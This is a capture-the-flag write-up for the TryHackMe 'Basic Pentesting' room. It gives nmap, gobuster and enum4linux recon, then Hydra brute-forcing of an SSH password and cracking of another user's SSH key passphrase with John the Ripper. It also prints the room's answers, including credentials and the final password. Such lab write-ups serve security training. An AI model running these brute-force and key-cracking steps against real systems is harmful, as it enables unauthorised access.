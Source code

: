 
---
---

<div align="center">

# TryHackMe Basic Pentesting


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/99c72676aab814b94e3bc350ba627b71.png" alt="THM BasicPentesting" width="220px" height="220px" style="margin-right: 85px;">
<img src="https://assets.tryhackme.com/img/THMlogo.png" alt="THM Logo" width="250px" height="150px" style="margin-bottom: 50px;">

<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/r/room/basicpentestingjt)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine
	```
	10.10.109.136 (Ubuntu 16.04)
	```

* ### Attacker Machine
	```
	10.17.35.203 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap 10.10.109.136 -o nmap.log

	```
	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 7.2p2
	80/tcp   open  http        Apache httpd 2.4.18
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
	8080/tcp open  http        Apache Tomcat 9.0.7
	```

* ### Gobuster Scan

	> gobuster dir -u 10.10.109.136 -w /usr/share/wordlists/dirb/common.txt -o gobuster.log

	```
	/.htaccess            (Status: 403) [Size: 297]
	/.hta                 (Status: 403) [Size: 292]
	/.htpasswd            (Status: 403) [Size: 297]
	/development          (Status: 301) [Size: 320]
	/index.html           (Status: 200) [Size: 158]
	/server-status        (Status: 403) [Size: 301]
	```


<br>

## THM Questions:

* _Q1_: What is the name of the hidden directory on the web server(enter name without /)? <br> _A_: `development`


<br>

## Enumeration and Bruteforcing:

* ### Enum4linux scan

	> enum4linux -a 10.10.109.136 | tee enum4linux.log

	```
	S-1-22-1-1000 Unix User\kay (Local User)
	S-1-22-1-1001 Unix User\jan (Local User)
	```

* ### Using Hydra to enumerate jan's password

	> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.136 | tee hydra.log

	```
	[22][ssh] host: 10.10.109.136   login: jan   password: armando
	```


<br>

## THM Questions:

* _Q2_: What is the username? <br> _A_: `jan`
* _Q3_: What is the password?  <br> _A_: `armando`


<br>

## Attempting login (user: jan)

> ssh jan@10.10.99.188

Login successful


<br>

## THM Questions:

* _Q4_: What service do you use to access the server(answer in abbreviation in all caps)? <br> _A_: `SSH`
* _Q5_: What is the name of the other user you found(all lower case)? <br> _A_: `kay`


<br>

## Finding PrivEsc vectors:

* ### linPEAS.sh scan

	Found user `kay's` `id_rsa` readable by user `jan` (logged in via ssh) in `/home/kay/.ssh/`


<br>

## Attempting login (user: kay)

> ssh -i kay_id_rsa kay@10.10.99.188

Login unsuccessful. id_rsa encrypted.


<br>

## Bruteforcing SSH key:

* ### Attempting id_rsa decryption using JohnTheRipper

	> python3 /opt/john/run/ssh2john.py kay_id_rsa > ssh2john.txt
	
	> /opt/john/run/john ssh2john.txt --wordlist=/opt/wordlists/rockyou.txt

	```
	beeswax          (kay_id_rsa)     
	```


<br>

## Attempting login (user: kay) (passphrase: beeswax)

> ssh -i kay_id_rsa kay@10.10.99.188

Login successful.


<br>

# Final Password

> cat /home/kay/pass.bak

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


<br>

# THM Questions:

* _Q6_: What is the final password you obtain? <br> _A_: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev), [LinkedIn](https://www.linkedin.com/in/jayadityadev26/) and [X](https://twitter.com/jayadityadev)

</div>

---
---
